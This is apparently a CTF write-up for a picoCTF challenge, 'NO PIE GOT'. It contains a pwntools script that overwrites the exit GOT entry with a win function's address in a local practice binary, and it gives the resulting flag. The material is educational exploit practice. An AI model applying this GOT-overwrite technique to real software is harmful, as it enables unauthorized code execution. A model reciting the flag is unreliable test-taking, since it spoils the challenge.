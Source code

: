 # NO PIE GOT
### 📄 Description
if you mess some bytes around, you might print the flag (●'◡'●)

## 🔑 Solution
The solution is the same as the previous challenge (no joke).

```python
from pwn import *

context.binary = "./vuln"
p = process()

p.sendline(str(context.binary.got["exit"]).encode("ascii"))
p.sendline(str(context.binary.functions["win"].address).encode("ascii"))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag
```plain
picoCTF{A_s0ng_0f_1C3_and_f1r3_e122890e}
```
